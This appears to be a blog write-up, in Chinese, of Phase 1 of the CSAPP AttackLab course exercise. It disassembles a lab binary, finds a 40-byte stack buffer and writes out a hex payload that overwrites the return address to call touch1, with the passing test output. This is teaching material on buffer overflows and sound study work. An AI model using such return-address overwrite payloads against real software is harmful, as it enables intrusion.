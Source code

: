 ```yaml
---
title: CSAPP AttackLab
abbrlink: a4b4efe7
date: 2025-02-25 15:55:15
categories: CSAPP
toc: true
---
```


csapp AttackLab



## Phase 1

首先获取 `ctarget` 的汇编代码

```shell
objdump -d ctarget ctarget.s
```

查看`getbuf`函数,确定分配的空间

```asm
4017a8: 48 83 ec 28           sub    $0x28,%rsp
4017ac: 48 89 e7              mov    %rsp,%rdi
4017af: e8 8c 02 00 00        call   401a40 <Gets>
```

发现分配了`0x28 = 40`字节的空间用于保存输入, 从而知道调用函数的返回地址是`%rsp + 40`处,
只要将这个地址用`touch1`的地址覆盖,即可完成攻击

查看`touch1`的地址

```asm
00000000004017c0 <touch1>:
```

也就是在`0x4017c0`处
所以得到我们的输入字符串为

```c
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00
```

将其保存在`phase1.txt`中,进行测试

```shell
$ ./hex2raw <phase1.txt |./ctarget -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00
```
